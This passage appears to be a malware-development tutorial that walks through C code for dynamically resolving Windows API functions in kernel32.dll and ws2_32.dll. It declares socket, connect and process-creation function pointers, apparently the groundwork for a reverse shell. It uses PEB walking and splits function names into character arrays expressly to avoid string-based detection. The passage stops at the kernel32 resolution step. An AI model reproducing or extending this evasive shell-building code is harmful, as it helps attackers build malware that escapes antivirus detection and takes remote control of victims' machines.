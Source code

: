 #### `ws2_32.dll` network functions

```c
// function pointer types for ws2_32.dll

typedef int (WINAPI* WSASTARTUP)(WORD wVersionRequested, LPWSADATA lpWSAData);
typedef SOCKET (WSAAPI* WSASOCKETA)(int af, int type, int protocol, LPWSAPROTOCOL_INFOA lpProtocolInfo, GROUP g, DWORD dwFlags);
typedef unsigned long (WINAPI* myINET_ADDR)(const char *cp);
typedef u_short(WINAPI* myHTONS)(u_short hostshort);
typedef int (WSAAPI* WSACONNECT)(SOCKET s, const struct sockaddr *name, int namelen, LPWSABUF lpCallerData, LPWSABUF lpCalleeData, LPQOS lpSQOS, LPQOS lpGQOS);
typedef int (WINAPI* CLOSESOCKET)(SOCKET s);
typedef int (WINAPI* WSACLEANUP)(void);
```

this phase uses the resolved `LoadLibraryA` to load networking DLLs. 

- `WSAStartup`: initializes Winsock.

- `WSASocketA`: creates raw sockets.

- `inet_addr`: handles network addresses.

- `WSAConnect`: establishes a connection.

**note**: since we're so into type safety around these parts, we want to match the exact Windows API signature, and use proper calling convention all the time.

```c
typedef SOCKET (WSAAPI* WSASOCKETA)(int af, int type, int protocol, 
    LPWSAPROTOCOL_INFOA lpProtocolInfo, GROUP g, DWORD dwFlags);
```

#### implementation

first, we'll declare our DLL handles + function pointers. these store our (dynamically) resolved addresses for both `kernel32.dll` and `ws2_32.dll` functions.

```c
UINT64 kernel32dll, ws2_32dll;
UINT64 LoadLibraryAFunc, CreateProcessFunc, WaitForSingleObjectFunc, CloseHandleFunc;
UINT64 WsaStartupFunc, WsaSocketFunc, InetAddrFunc, HtonsFunc, WsaConnectFunc, CloseSocketFunc, WsaCleanupFunc;
```

then, we can start the resolution chain with `kernel32.dll`, starting with `LoadLibraryA`, the bootstrap function for loading additional DLLs. each function's name will be broken into character arrays to avoid string detection.

```c
kernel32dll = GetKernel32();  // uses PEB walking technique from memWalk
CHAR loadlibrarya_c[] = {'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', 0};
LoadLibraryAFunc = GetSymbolAddress((HANDLE)kernel32dll, loadlibrarya_c);

CHAR createprocess_c[] = { 'C', 'r', 'e', 'a', 't', 'e', 'P', 'r', 'o', 'c', 'e', 's', 's', 'A', 0 };
CreateProcessFunc = GetSymbolAddress((HANDLE)kernel32dll, createprocess_c);

CHAR waitforsingleobject_c[] = { 'W', 'a', 'i', 't', 'F', 'o', 'r', 'S', 'i', 'n', 'g', 'l', 'e', 'O', 'b', 'j', 'e', 'c', 't', 0 };
WaitForSingleObjectFunc = GetSymbolAddress((HANDLE)kernel32dll, waitforsingleobject_c);

CHAR closehandle_c[] = { 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', 0 };
CloseHandleFunc = GetSymbolAddress((HANDLE)kernel32dll, closehandle_c);
```
